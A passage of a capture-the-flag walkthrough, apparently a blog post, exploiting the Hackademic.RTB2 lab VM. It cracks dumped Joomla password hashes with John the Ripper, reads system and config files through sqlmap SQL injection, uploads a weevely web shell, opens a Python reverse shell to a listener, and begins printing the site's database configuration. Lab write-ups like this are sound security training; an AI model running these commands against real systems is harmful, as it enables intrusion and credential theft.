 root@kali32:/usr/share/dirb# john --list=subformats
Format = dynamic_0   type = dynamic_0: md5($p) (raw-md5)
Format = dynamic_1   type = dynamic_1: md5($p.$s) (joomla)
Format = dynamic_2   type = dynamic_2: md5(md5($p)) (e107)
...

root@kali32:~/.sqlmap/output/192.168.80.150/dump# cat joomla/jos_users.csv | cut -d, -f 7,9 | sed -e 's/:/\$/' -e 's/,/:/'  > /tmp/joomla.pass 

root@kali32:~/.sqlmap/output/192.168.80.150/dump# john /tmp/joomla.pass  -format=dynamic_1
...
root@kali32:~/.sqlmap/output/192.168.80.150/dump# john /tmp/joomla.pass  -format=dynamic_1 --show
JSmith:matrix
BTallor:victim
test:test

3 password hashes cracked, 1 left
{% endcodeblock %}

Because the SQLi statements are executed by database root user, we can read or store arbitrary file to the server.
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.150/dump# sqlmap -u "http://192.168.80.150:666/index.php?option=com_abc&view=abc&letter=test"  -p letter --batch --file-read=/etc/passwd
root@kali32:~/.sqlmap/output/192.168.80.150/dump# sqlmap -u "http://192.168.80.150:666/index.php?option=com_abc&view=abc&letter=test"  -p letter --batch --file-read=/etc/issue
{% endcodeblock %}

The target is Ubuntu 10.04, we can predict better the filenames in /etc:
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.150/dump# sqlmap -u "http://192.168.80.150:666/index.php?option=com_abc&view=abc&letter=test"  -p letter --batch --file-read=/etc/phpmyadmin/config.inc.php

{% endcodeblock %}

We generate and upload the weevely shell, then upgrade to python shell over netcat:
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.150/dump# sqlmap -u "http://192.168.80.150:666/index.php?option=com_abc&view=abc&letter=test"  -p letter --batch --file-write=weevely.php --file-dest=/var/www/test1.php

root@kali32:/usr/share/exploitdb# nc -lp 1338

www-data@HackademicRTB2:/tmp $ python -c "import sys,socket,os,pty; _,ip,port=sys.argv; s=socket.socket(); s.connect((ip,int(port))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')" 192.168.80.137 1338
www-data@HackademicRTB2:/tmp$ 
{% endcodeblock %}

The following credentials could be used to log in phpMyAdmin using root:
{% codeblock lang:php %}
www-data@HackademicRTB2:/var/www $ cat configuration.php
<?php
class JConfig {
/* Site Settings */
var $offline = '0';
var $offline_message = 'This site is down for maintenance.<br /> Please check back again soon.';
var $sitename = 'Hackademic.RTB2';
var $editor = 'tinymce';
var $list_limit = '20';
var $legacy = '0';
/* Debug Settings */
var $debug = '0';
var $debug_lang = '0';
/* Database Settings */
var $dbtype = 'mysql';
var $host = 'localhost';
var $user = 'root';